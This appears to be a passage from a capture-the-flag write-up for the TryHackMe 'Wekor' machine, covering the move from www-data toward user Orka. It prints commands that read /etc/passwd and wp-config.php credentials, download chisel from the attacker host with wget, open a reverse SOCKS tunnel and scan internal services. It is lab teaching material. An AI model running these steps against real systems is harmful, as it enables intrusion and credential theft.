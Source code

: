 ## www-data to Orka

```
www-data@osboxes:/$ cat /etc/passwd | grep /bin/bash                      
root:x:0:0:root:/root:/bin/bash
Orka:x:1001:1001::/home/Orka:/bin/bash
```

**Found 1 user: `Orka`**

**Found MySQL credentials in `/var/www/html/site.wekor.thm/wordpress/wp-config.php`:**
```
www-data@osboxes:/var/www/html/site.wekor.thm/wordpress$ cat wp-config.php
[...]
/** MySQL database username */
define( 'DB_USER', 'root' );

/** MySQL database password */
define( 'DB_PASSWORD', '{Redacted}' );
```

Tried password reuse for user `Orka`, but no dice.

**Internal open ports:**
```
www-data@osboxes:/$ netstat -tunlp
[...]
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:11211         0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:3010          0.0.0.0:*               LISTEN      -   
```

In the above `netstat` command, we can see that **port 11211 and 3010 is opened at localhost**, which is very weird.

**We can use `chisel` to do dynamic port forwarding to determine what services are they running:**
```
┌──(root🌸siunam)-[/opt/chisel]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

www-data@osboxes:/$ wget http://10.18.61.134/chiselx86 -O /tmp/chisel;chmod +x /tmp/chisel
```

**Dynamic port forwarding:**
```
┌──(root🌸siunam)-[/opt/chisel]
└─# ./chiselx64 server -p 8888 --reverse

www-data@osboxes:/$ /tmp/chisel client 10.18.61.134:8888 R:socks
```

**Using `nmap` to scan those ports with `proxychains`:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Wekor]
└─# proxychains nmap -sT -sC -sV -T4 -p3010,11211 127.0.0.1
[...]
PORT      STATE SERVICE   VERSION
3010/tcp  open  gw?
11211/tcp open  memcached Memcached 1.4.25 (uptime 2855 seconds; Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
